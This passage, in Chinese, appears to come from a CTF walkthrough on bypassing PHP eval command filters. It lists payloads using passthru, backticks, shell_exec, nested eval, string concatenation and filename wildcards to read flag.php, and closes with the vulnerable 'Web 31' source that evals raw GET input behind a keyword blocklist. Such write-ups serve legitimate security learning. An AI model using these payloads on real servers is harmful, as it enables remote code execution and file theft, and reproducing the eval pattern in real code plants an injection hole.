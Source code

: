 其中过滤的flag和php仍然可以使用通配符 * 或 ?  模糊匹配绕过。至于system，可以使用`exec`，`shell_exec`，反引号【`$command`】，`passthru`绕过，注意exec和shell_exec需要输出命令执行结果，其中的exec，它的返回字符串只是外部程序执行后返回的最后一行；若需要完整的返回字符串，可以使用 PassThru() 这个函数。

**passthru：**

`?c=passthru("ls");`

` ?c=passthru("tac fla*");`

**反引号：**

```
?c=echo `ls`;
?c=echo `tac fla*`;
```

**shell_exec：**

`?c=echo shell_exec("ls");`

` ?c=echo shell_exec("nl fla*|tac");`

**eval绕过：**

` ?c=eval($_GET["code"]);&code=system("tac flag.php");`

`?c=eval($_GET[1]);&1=phpinfo();`

`?c=eval($_GET[1]);&1=system("tac%20flag.php");`

**注意：**拼接法`?c=$a=sys;$b=tem;$d=$a.$b;$d("tac fl*");`（这方法也是没谁了）

**一个linux命令：**

打印文件命令 echo nl  file，这个命令貌似可以在cat、tac被过滤的时候使用。

**PHP短标签：**`<?=system('ls')?>`





## Web 31

代码如下：

```php
<?php
error_reporting(0);

if (isset($_GET['c'])) {
    $c = $_GET['c'];
    if (!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)) {
        eval($c);
    }
} else {
    highlight_file(__FILE__);
}
?>
```

敏感词： "flag"、"system"、"php"、"cat"、"sort"、"shell"、"."、" "、"'"（空格和单引号）。
